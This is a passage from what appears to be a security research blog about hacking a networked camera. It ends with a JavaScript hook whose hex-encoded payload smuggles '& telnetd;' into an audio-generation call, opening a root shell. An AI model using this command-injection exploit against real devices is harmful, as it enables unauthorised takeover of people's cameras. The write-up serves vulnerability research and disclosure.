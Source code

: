 ```
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x20, 0x26, 0x20, 0x74,
		0x65, 0x6c, 0x6e, 0x65,
		0x74, 0x64, 0x3b, 0xa,
		0x77, 0x69, 0x66, 0x69,
		0x5f, 0x31, 0x43, 0x39,
		0x38, 0x42, 0x30, 0xa,
		0x68, 0x65, 0x6c, 0x6c,
		0x6f, 0x77, 0x6f, 0x72,
		0x6c, 0x64
	];
	
	// Convert the byte array to a Uint8Array
	let byteStringArray = new Uint8Array(payload);
	
	str2 = '';
	for (let i = 0; i < byteStringArray.length; i++) {
		str2 += String.fromCharCode(byteStringArray[i]);
	}
	
	// Set the byte string
	i = payload.length;
	
	console.log(`PcmUtil.genPcmData is called: str=${str}, str2=${str2}, i=${i}, bVar=${bVar}`);
	
	// Call the original function with modified arguments
	this["genPcmData"](str, str2, i, bVar);
};
```

# Summary

In this blog, we found a straight-forward stack overflow bug that is triggered by playing a sound at the camera, and wrote a small exploit (with the help of a bug we found in the last blog). We also found an overflow which turned into a command injection, which can be exploited to get a root shell on the device, with the only requirement being within listening range of the camera. We also did a bit of Frida/Jadx which I think is a first in my collection of blogs!

